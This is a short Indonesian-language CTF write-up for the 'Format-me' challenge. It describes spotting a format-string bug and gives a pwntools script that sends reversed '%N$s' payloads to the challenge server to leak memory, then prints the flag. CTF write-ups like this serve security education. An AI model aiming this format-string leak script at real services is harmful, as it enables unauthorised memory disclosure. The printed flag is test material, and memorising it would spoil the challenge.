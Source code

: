 Sedikit lebih menantang karena cuma disediakan port netcatnya, tanpa ada attachment. Ketika dijalankan program meminta input dan menampilkan char dengan posisi terbalik dari input char. Dari nama soal 'Format-me' saya mengasumsikan terdapat vuln format string. coba mengirim payload '%.x' ternyata muncul sesuatu yang aneh. Karena tidak terdapat banyak clue saya mencoba membrute semua character sebagai payload dan langsung melakukan leak pada stringnya. Pada awalnya sedikit bermasalah karena nihil hasil karena payload lupa belum di reverse, sekarang kita kirimkan payloadnya dengan di reverse dan begini kurang lebih payloadnya

    from pwn import *
    r = remote("challs.dvc.tf", 8888)
    for i in range(3,200):
        try:
            payload = "%"+str(i)+"$s"
            r.recvuntil(":")
            r.sendline(payload[::-1])
            r.recvuntil("Result: \n")
            print(i,r.recvline())
        except Exception as e:
            r = remote("challs.dvc.tf", 8888)
            continue

Dan didapatkan flagnya.

![](images.png)

    Flag = dvCTF{1_h0p3_n01_s33s_th1s}
